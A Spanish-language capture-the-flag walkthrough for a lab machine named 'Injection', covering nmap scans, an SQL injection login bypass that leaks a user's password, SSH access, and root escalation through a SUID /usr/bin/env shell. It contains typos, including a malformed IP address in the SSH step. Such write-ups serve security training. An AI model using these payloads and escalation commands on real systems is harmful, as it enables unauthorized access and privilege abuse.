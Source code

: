 ### Máquina Injection

## Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

## Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 172.17.0.2 

![alt text](image-3.png)

## Navegamos al 172.17.0.2

nos encontramos con un formulario de login:

![alt text](image.png)

![alt text](image-1.png)

en los 2 inputs escribimos ' or 1=1 -- - y nos arrojo la contraseña de dylan

KJSDFG789FGSDF78

## Intrusion

por shh

shh dylan@172.172.17.0.2 -> KJSDFG789FGSDF78

## Escalar privilegios

find / -perm -4000 2>/dev/null

/usr/bin/env

/usr/bin/env /bin/sh -p

![alt text](image-2.png)

